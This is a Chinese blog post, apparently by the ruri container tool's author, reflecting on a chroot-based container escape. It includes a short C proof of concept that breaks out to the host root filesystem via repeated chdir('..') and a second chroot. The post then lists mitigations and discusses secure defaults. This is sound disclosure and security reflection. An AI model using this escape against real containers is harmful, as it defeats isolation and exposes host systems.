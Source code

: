 ```yaml
---
layout: post
title: 容器安全反思之，当我亲手逃逸出ruri
date: 2025-07-27 22:40:56
cover: /img/escape-inside-ruri.jpg
top_img: /img/escape-inside-ruri.jpg
tags:
- Linux
- C语言
- Container
---
```

# 前言及叠甲(雾)
开发了好久的ruri，这两天听了一场AOSCC，天塌了。
~~所以责任全在AOSCC（bushi）~~
本文所提到问题仅针对个人项目，不构成任何方面建议。本人强烈推荐使用稳定的容器实现而非和我一起开灵车。
本文仅供技术交流，请自行承担风险。
写文章时作者在旅馆喝多了，至于怎么写出来的，我也不知道。
ruri已有的功能是能防的，只是非默认行为。安全加固建议在文档中也写了，总之，别骂了QwQ知道错了呜呜呜。。。
为什么这篇文章不遵守安全漏洞披露规范？因为ruri是灵车，我们继续创就好了（x
虽然AOSCC演讲刚讲到这个问题。。。。
以及：
For production, I fully recommand you to use tools like [crun](https://github.com/containers/crun), [youki](https://github.com/youki-dev/youki), [containerd](https://containerd.io/), [docker](https://www.docker.com/), [podman](https://podman.io/), [LXC](https://linuxcontainers.org/), [bubblewrap](https://github.com/containers/bubblewrap), they are more secure and stable. This is a non-OCI tool and, you take your own risk using it when you really need. The whole project is experimental!
```
* Your warranty is void.
* I am not responsible for anything that may happen to your device by using this program.
* You do it at your own risk and take the responsibility upon yourself.
* This project is open source, you can make your own fork/rewrite but not to blame the author.
* This program has no Super Cow Powers.
```
# 简单的逃逸
基于AOSCC上姚念庆老师的分享（公开信息，仅做引用），经过和xtex佬的交流后，我也成功构建了一个POC：
（注：以下代码仅供学习交流，请勿用于非法用途）
```c
// 草，懒得搜头文件直接从项目里引了
// 反复鞭尸.jpg
#include "src/include/ruri.h"
int main(void)
{
	/*
	 * WTF? How it works?
	 */
    // Seems we need to chroot() to a subdir once,
    // don't ask me why, idk.
	int chstat = chroot("/tmp");
	// Non-zero value means we are not succeed.
	printf("chroot returned %d\n", chstat);
	for (int i = 0; i < 1000; i++) {
		chdir("..");
	}
    // chroot() again, now we are out to host rootfs.
	chstat = chroot("./");
	printf("chroot returned %d\n", chstat);
	// Wow, out of container!
	// We are now free like a bird!
	execv("/bin/ls", (char *[]){ "ls", NULL });
	return 0;
}
```
原理。。。我也不清楚，毕竟涉及内核态了，总之，很恐怖。
于是我成功把自己和不存在的用户一起创似了。
好了本文结束，作者可以找个垃圾桶把自己丢进去了。
# 坏消息与好消息：
## 坏消息：
ruri的默认行为是寄的。
## 好消息：
我们至少有四种方式可以在不更新ruri的基础上解决这个问题：
1. drop掉CAP_SYS_CHROOT，这样chroot()就会失败
2. 开启unshare，因为unshare会自动先尝试pivot_root()
3. 使用rootless模式，虽然我也不知道为什么能防
4. 开启seccomp，用`--deny-syscalls chroot`可以拒绝chroot()

至少咱应该不用以死谢罪吧。。。（心虚）
但是：
## 坏消息：
1. 以上这些，在写这篇文章之前，都不是默认行为
2. 用户并不懂这些，甚至我见过有用户直接一个`--privileged`选项干掉所有保护
3. 我依稀记得，当时是为了兼容性考虑才保留CAP_SYS_CHROOT，但我清楚的知道，我忘了到底是为什么

好了作者要找个垃圾桶把自己丢进去了。
# 反思一，我们如何构建默认行为
更多默认启用的安全选项意味着更大的限制。
举个例子，如果我们默认开启no_new_privs，那么用户将无法通过su命令切换回root用户。
举个鞭尸自己的例子，ruri的内置seccomp规则一直没有充分测试，而且之前确实被它创飞过。
更极端的例子就是，我们自然可以直接开seccomp的传统模式，但是，这样容器也就不可用了。就像AOSCC上有一段是这样讲的：什么都没有的话，一块石头最安全了，但他也仅仅是一块石头。
docker等项目的默认行为确实有很大的参考价值，但是，他们并不完全适用于ruri这样的项目，毕竟我们要支持内核功能完全受限的环境。
在实际开发中，这样的问题其实有更多。有些当时为了修复一个已经被忘了且没有记录的问题的补丁成了默认行为，有些时候，为了兼容性，我们不得不在尝试更安全的行为失败时，fallback倒一个并非安全的行为。
当ruri被扩展到rurima，又多了一个新的问题。国内docker镜像都非相对可信，可如果不支持镜像，国内用户会很难受。因此我也只能做折中，在用户使用非官方镜像时输出一个警告（并非折中）
我们有时候不得不承认，哪怕我们支持再多的特性，默认行为也只能是一个折中后的结果。
哪怕这并不应当是作者因为知识浅薄写出漏洞的借口。
# 反思二，用户有没有义务去了解背后原理
我个人认为，我看未必，实则不然，恰恰相反，~~天理难容~~
用户自然需要对自己的行为负责，但是，作为开发者的我，显然责任更大。
软件的本质是一种减轻用户心智负担和使用成本的抽象，我们自然是让用户越轻松越好。至少，就像AOSCC上一位佬说的那样，我们应当比用户更了解我们的程序。
尤其是，当默认行为有严重的副作用，作者却未对此说明，甚至像我一样，根本不知道时。
# 反思三，当我们真的来到生产环境
那寄了，咱只能以死谢罪了。。。
很庆幸，我还年轻，只是一个爱好者的身份，ruri也并不是被广泛使用的项目，至少这辈子应该不会见到这东西进生产环境，~~否则我要去连着自己一起骂一顿了~~
但我们真的，不得不去考虑，为我们的程序负责。
以及，在生产环境下，尽量不要用未经广泛验证的项目，会变得不幸
# 结语
我一直相信，一个项目的构建，要从非零值开始，它至少需要先有雏形，再去完善。
在开始开发ruri之前，我甚至没有接触过C语言，好吧，说实话我只写过一点shell。
这几年的开发，确实让我的技术有了些许进步，因此，对于拿自己的开源项目当试验场的行为，我必须表示：
sorr, not sorry
最起码只是实验性项目，我们的灵车还会继续发车。无需麻醉，一样情不自禁high起来～
好吧，不开玩笑地说，很感谢此次AOSCC上各位大佬的分享，也确实让我意识到自己的很多不足。
我仍将相信，我终会有能力构建出更完善的项目，哪怕会犯错。
但我将更加努力。
但我将更加警惕。